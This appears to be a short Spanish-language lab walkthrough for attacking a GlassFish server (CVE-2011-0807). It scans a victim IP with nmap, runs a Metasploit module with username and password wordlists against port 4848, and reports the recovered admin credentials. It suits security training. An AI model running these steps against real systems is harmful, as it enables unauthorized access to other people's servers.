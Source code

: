 # Vulnerabilidades Windows

## CVE-2011-0807 GlassFish


1. Primero vemos que puertos tiene la maquina victima con nmap

   ```bash
   nmap 169.254.217.145
   
2. Ahora iniciaremos la herramienta  msfconsole que es el Framework mas famoso

   ```bash
   msfconsole
   
3. Buscamos las herramientas que tiene que ver con Glassfish
   ```bash
   search glassfish

4. Yo usare la 1 
   ```bash
   use 1

5. Vemos que opciones hay que rellenar 
   ```bash
   show options
6. Seteamos los campos necesario
   ```bash
   set rhost 10.10.0.1
   set rport 4848
   set STOP_ON_SUCCES  true
   set user_file /home/kali/Desktop/user.txt
   set pass_file /home/kali/Desktop/passw.txt
7. Y ejecutamos el exploit
   ```bash
   exploit
8. Y como podemos ver el usuario es admin y la contraseña exploit
![exWind](https://github.com/ajaicac/Seguridad/blob/main/exWiN.PNG)
